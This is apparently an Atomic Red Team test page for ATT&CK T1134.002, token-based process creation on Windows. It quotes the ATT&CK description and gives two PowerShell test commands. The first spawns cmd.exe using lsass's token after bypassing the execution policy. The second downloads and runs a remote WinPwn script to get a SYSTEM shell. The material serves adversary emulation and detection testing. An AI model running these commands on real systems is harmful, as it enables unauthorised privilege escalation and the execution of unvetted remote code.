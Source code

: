 # T1134.002 - Create Process with Token

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1134/002)

<blockquote>Adversaries may create a new process with an existing token to escalate privileges and bypass access controls. Processes can be created with the token and resulting security context of another user using features such as <code>CreateProcessWithTokenW</code> and <code>runas</code>.(Citation: Microsoft RunAs)

Creating processes with a token not associated with the current user may require the credentials of the target user, specific privileges to impersonate that user, or access to the token to be used. For example, the token could be duplicated via [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001) or created via [Make and Impersonate Token](https://attack.mitre.org/techniques/T1134/003) before being used to create a process.

While this technique is distinct from [Token Impersonation/Theft](https://attack.mitre.org/techniques/T1134/001), the techniques can be used in conjunction where a token is duplicated and then used to create a new process.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Access Token Manipulation](#atomic-test-1---access-token-manipulation)

- [Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique](#atomic-test-2---winpwn---get-system-shell---pop-system-shell-using-token-manipulation-technique)

<br/>

## Atomic Test #1 - Access Token Manipulation

This Action demonstrates how an access token for a specific program can spawn another program under a different owner.
Adversaries can leverage access tokens to run programs under a different user not only to achieve privilege escalation but also to evade detection by blending in with normal user activity.
This Action will query all processes and list the process name and owner.It will then make a copy of an existing token to create a new instance of cmd.exe

**Supported Platforms:** Windows

**auto_generated_guid:** dbf4f5a9-b8e0-46a3-9841-9ad71247239e

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-ExecutionPolicy -Scope Process Bypass -Force
$owners = @{}
gwmi win32_process |% {$owners[$_.handle] = $_.getowner().user}
Get-Process | Select ProcessName,Id,@{l="Owner";e={$owners[$_.id.tostring()]}}
& "$PathToAtomicsFolder\T1134.002\src\GetToken.ps1"; [MyProcess]::CreateProcessFromParent((Get-Process lsass).Id,"cmd.exe")
```

<br/>
<br/>

## Atomic Test #2 - WinPwn - Get SYSTEM shell - Pop System Shell using Token Manipulation technique

Get SYSTEM shell - Pop System Shell using Token Manipulation technique via function of WinPwn

**Supported Platforms:** Windows

**auto_generated_guid:** ccf4ac39-ec93-42be-9035-90e2f26bcd92

#### Attack Commands: Run with `powershell`!

```powershell
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/Get-System-Techniques/master/TokenManipulation/Get-WinlogonTokenSystem.ps1');Get-WinLogonTokenSystem
```

<br/>
